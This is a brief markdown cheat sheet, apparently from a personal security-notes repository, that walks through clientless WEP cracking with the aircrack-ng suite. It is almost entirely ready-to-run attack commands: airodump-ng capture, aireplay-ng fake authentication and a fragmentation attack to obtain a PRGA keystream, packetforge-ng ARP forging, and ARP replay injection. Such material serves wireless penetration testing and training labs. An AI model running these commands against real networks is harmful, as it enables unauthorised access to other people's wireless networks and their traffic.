 # Clientless WEP cracking

Here there are no client associated to AP

Sniff the network traffic

```sh
sudo airodump-ng -c <channel> -w wep_file wlan0mon
# Do not close this window
```

- Step 1: Authenticating to the AP using Fake Authentication attack

```sh
sudo aireplay-ng -1 6000 -q 10 -a <bssid> wlan0mon
# Do not close this window
```

- Step 2: Start fragmentation attack to get a PRGA (Pseudo Random Generation Algorithm) stream

```sh
sudo aireplay-ng -5 -b <bssid> -c <source_mac> wlan0mon
# source_mac is your wireless adapter MAC

# Do not close this window
```

> At some point, if you are lucky, you will get a data packet transmitted from the AP. These are distinguishable by the **FromDS is set to 1**.
> 
> When data frame is received, press `y` to confirm otherwise skip it pressing `n`.

- Step 3: With the captured PRGA we now build an ARP request packet

```sh
sudo packetforge-ng -0 -a <bssid> -h <source_mac> -k 255.255.255.255 -l 255.255.255.255 -y <prga-file.xor> -w arp-request

# source_mac is your wireless adapter MAC
```

- Step 4: Inject the forged ARP request

```sh
sudo aireplay-ng -2 -r arp-request wlan0mon
```

Confirm pressing `y` and let the attack begin



